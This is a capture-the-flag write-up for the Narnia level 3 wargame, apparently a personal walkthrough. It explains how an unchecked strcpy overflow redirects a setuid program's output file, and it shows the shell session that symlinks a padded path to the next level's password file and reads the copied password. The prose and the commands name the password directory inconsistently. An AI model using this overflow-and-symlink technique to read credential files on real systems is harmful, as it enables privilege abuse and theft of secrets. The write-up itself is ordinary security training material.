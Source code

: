 This seems a bit longer then the previous seen source codes, so what's going on here?
Teoretically the content of whatever file we pass ass argument is copyied into the output file, that is hardcoded and is `/dev/null`. So essentially it's thrown away. But because of the insecure strcpy we can use a buffer overflow to also overwrite the contents of the output file. Everything we input will be used as input file but only the characters after 32 bytes(ifile length) will be interpreted as output file. We need to copy the contents of `/etc/natas_pass/narnia4` in a file we can read. To make this happend I did the following:
- I created `/tmp/dnltrp99/DTDTDTDTDTDTDTDTDT/tmp/dnltrp99/out` with `out` beeing a symlink to `/etc/natas_pass/narnia4`
- Executed ./narnia3 /tmp/dnltrp99/DTDTDTDTDTDTDTDTDT/tmp/dnltrp99/out
- Read the output from `/tmp/dnltrp99/out`
By doing this the file `/tmp/dnltrp99/DTDTDTDTDTDTDTDTDT/tmp/dnltrp99/out` is used as input file(symlink to the flag) but only the last 17 bytes (`/tmp/dnltrp99/out`) are used as output.

```
narnia3@narnia:/$ cd /tmp
narnia3@narnia:/tmp$ mkdir dnltrp99
narnia3@narnia:/tmp$ cd dnltrp99
narnia3@narnia:/tmp/dnltrp99$ mkdir DTDTDTDTDTDTDTDTDT
narnia3@narnia:/tmp/dnltrp99$ cd DTDTDTDTDTDTDTDTDT
narnia3@narnia:/tmp/dnltrp99/DTDTDTDTDTDTDTDTDT$ mkdir tmp
narnia3@narnia:/tmp/dnltrp99/DTDTDTDTDTDTDTDTDT$ cd tmp
narnia3@narnia:/tmp/dnltrp99/DTDTDTDTDTDTDTDTDT/tmp$ mkdir dnltrp99
narnia3@narnia:/tmp/dnltrp99/DTDTDTDTDTDTDTDTDT/tmp$ cd dnltrp99
narnia3@narnia:/tmp/dnltrp99/DTDTDTDTDTDTDTDTDT/tmp/dnltrp99$ ln -s "/etc/narnia_pass/narnia4" "out"
narnia3@narnia:/tmp/dnltrp99/DTDTDTDTDTDTDTDTDT/tmp/dnltrp99$ ls
out
narnia3@narnia:/tmp/dnltrp99/DTDTDTDTDTDTDTDTDT/tmp/dnltrp99$ cd /narnia
narnia3@narnia:/narnia$ ./narnia3 /tmp/dnltrp99/DTDTDTDTDTDTDTDTDT/tmp/dnltrp99/out
error opening /tmp/dnltrp99/out
narnia3@narnia:/narnia$ cd /tmp/dnltrp99
narnia3@narnia:/tmp/dnltrp99$ touch out
narnia3@narnia:/tmp/dnltrp99$ cd /narnia
narnia3@narnia:/narnia$ ./narnia3 /tmp/dnltrp99/DTDTDTDTDTDTDTDTDT/tmp/dnltrp99/out
error opening /tmp/dnltrp99/out
narnia3@narnia:/narnia$ cd /tmp/dnltrp99
narnia3@narnia:/tmp/dnltrp99$ ls
DTDTDTDTDTDTDTDTDT  out
narnia3@narnia:/tmp/dnltrp99$ chmod 777 out
narnia3@narnia:/tmp/dnltrp99$ cd /narnia
narnia3@narnia:/narnia$ ./narnia3 /tmp/dnltrp99/DTDTDTDTDTDTDTDTDT/tmp/dnltrp99/out
copied contents of /tmp/dnltrp99/DTDTDTDTDTDTDTDTDT/tmp/dnltrp99/ou to a safer place... (/tmp/dnltrp99/ou)
narnia3@narnia:/narnia$ cat /tmp/dnltrp99/out
*FLAGHERE*
(.PT narnia3@narnia:/narnia$
```
>Note: you have to manually create the path a folder at the time. Don't forget to create the output file in `/tmp/dnltrp99` and assigning the right permissions (writeable by everyone)

# *Narnia4*
